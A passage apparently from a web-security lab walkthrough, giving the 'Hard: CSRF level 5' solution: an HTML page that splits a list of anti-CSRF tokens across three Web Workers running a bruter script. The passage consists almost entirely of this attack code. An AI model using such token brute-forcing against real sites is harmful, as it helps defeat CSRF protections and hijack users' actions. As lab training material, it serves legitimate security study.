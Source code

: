 ```js

         // Brute Loop
         bruteLoop(tokens);
      </script>
   </body>
</html>

```

### Hard: CSRF level 5

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
         # add the tokens
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>

```
